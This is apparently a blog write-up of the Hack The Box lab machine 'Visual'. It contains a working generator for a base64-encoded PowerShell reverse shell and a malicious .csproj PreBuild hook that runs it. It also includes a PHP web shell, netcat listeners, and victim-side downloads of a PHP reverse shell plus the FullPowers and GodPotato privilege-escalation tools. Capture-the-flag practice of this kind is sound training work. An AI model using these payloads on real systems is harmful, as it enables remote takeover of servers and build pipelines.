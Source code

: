```yaml
---
layout: post
title:  Visual htb
description: 
date:   2018-04-21 15:01:35 +0300
image:  '/images/20.jpg'
tags:   [Writeup, HTB]
---
```



## Nmap
{% highlight bash %}
sudo nmap -p- 10.10.11.234  -T4 -A
 Nmap scan report for 10.10.11.234
Host is up (0.16s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.1.17)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.1.17
|_http-title: Visual - Revolutionizing Visual Studio Builds
{% endhighlight %}
Add `visual.htb` domain to our `/etc/hosts` file.
## Web Enumeration
We can upload our git repo here and it'll compile to make an exe or dll file.
Let's make a project
{% highlight bash %}
mkdir b17
dotnet new console -n b17 -f net6.0
dotnet new sln -n b17
dotnet s In b17.sln add b17/b17.csproj
{% endhighlight %}
Now creating a git repo for this project
{% highlight bash %}
git init
git add .
git commit -m "update"
git update-server-info
{% endhighlight %}
**Folder Structure**
{% highlight bash %}
├── b17
│   ├── b17.csproj
│   ├── obj
│   │   ├── b17.csproj.nuget.dgspec.json
│   │   ├── b17.csproj.nuget.g.props
│   │   ├── b17.csproj.nuget.g.targets
│   │   ├── project.assets.json
│   │   └── project.nuget.cache
│   └── Program.cs
└── b17.sln
{% endhighlight %}
Now we will upload it

{% highlight bash %}
python3 -m http.server 80
{% endhighlight %}

![Image description](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/mwmulbi4b4czpaubfsh7.jpg)
and the website does it works

![Image description](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/xra4v09ov3ufvsitcg6x.jpg)
## Gaining access
from here we can try to get a reverse shell using the csproj file
**Generate Reverse Shell**
{% highlight bash %}
#!/usr/bin/env python3
#
# generate reverse powershell cmdline with base64 encoded args
#

import sys
import base64

def help():
    print("USAGE: %s IP PORT" % sys.argv[0])
    print("Returns reverse shell PowerShell base64 encoded cmdline payload connecting to IP:PORT")
    exit()
    
try:
    (ip, port) = (sys.argv[1], int(sys.argv[2]))
except:
    help()

# payload from Nikhil Mittal @samratashok
# https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3

payload = '$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
payload = payload % (ip, port)

cmdline = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmdline)
{% endhighlight %}
{% highlight bash %}
python <filename>.py <IP> 9009
{% endhighlight %}
{% highlight bash %}
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>

  <Target Name="PreBuild" BeforeTargets="BeforeBuild">
    <Exec Command="<Output of filename.py>" />
  </Target>

</Project>
{% endhighlight %}
updating the git repo again
{% highlight bash %}
git add b17/b17.csproj
git commit -m "csproj update"
git update-server-info
python3 -m http.server 80
{% endhighlight %}
Setup Listener
{% highlight bash %}
nc -nvlp 9009
{% endhighlight %}
and we got a shell
{% highlight bash %}
type C:\\Users\\enox\\Desktop\\root.txt
{% endhighlight %}
## Lateral Movement to nt authority\local service
**Attacker**
{% highlight bash %}
echo -n "<?php system($_GET['cmd']);?>" | cat > b1.php
python -m http.server 80
{% endhighlight %}
**Victim**
{% highlight bash %}
Invoke-WebRequest -Uri http://your-ip:80/b1.php -OutFile C:\\xampp\\htdocs\\b1.php
{% endhighlight %}

![Image description](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/ziwsvg6gwakaos4cqjjv.jpg)
## Privilege escalation
{% highlight bash %}
wget https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/master/src/reverse/php_reverse_shell.php
{% endhighlight %}
**Edit ip and port**

![Image description](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/zdn0jrcacdbd68itwtqy.png)
**Attacker**
{% highlight bash %}
python3 -m http.server 80
{% endhighlight %}
**Victim**
{% highlight bash %}
Invoke-WebRequest -Uri http://your-ip:80/php_reverse_shell.php -OutFile C:\\xampp\\htdocs\\php_reverse_shell.php
{% endhighlight %}
Setup **Listner**
{% highlight bash %}
ncat -lvnp 9008
{% endhighlight %}
Go to http://visual.htb/php_reverse_shell.php
**Boom we got reverse shell as nt authority\local service**
As the user is local service, we can restore the default privileges of the account using [FullPowers](https://github.com/itm4n/FullPowers)
**Attacker**
{% highlight bash %}
wget https://github.com/itm4n/FullPowers/releases/download/v0.1/FullPowers.exe
python -m http.server 80
{% endhighlight %}
**Victim**
{% highlight bash %}
Invoke-WebRequest -Uri http://your-ip:80/FullPowers.exe -OutFile C:\\xampp\\htdocs\\FullPowers.exe
.\FullPowers.exe 
whoami /priv
{% endhighlight %}
**Boom**

![Image description](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/pbu71ath05529oi0bxni.png)
then simply using [GodPotato ](https://github.com/BeichenDream/GodPotato)got nt authority\system
**Attacker**
{% highlight bash %}
wget https://github.com/BeichenDream/GodPotato/releases/download/V1.20/GodPotato-NET4.exe -O  GP4.exe
python -m http.server 80
{% endhighlight %}
**Victim**
{% highlight bash %}
Invoke-WebRequest -Uri http://your-ip:80/GP4.exe -OutFile C:\\xampp\\htdocs\\GP4.exe
.\GP4 -cmd "cmd /c type C:\Users\Administrator\Desktop\root.txt"
{% endhighlight %}
Go root.....
Hurray!!!!!!!!!!!!!!!
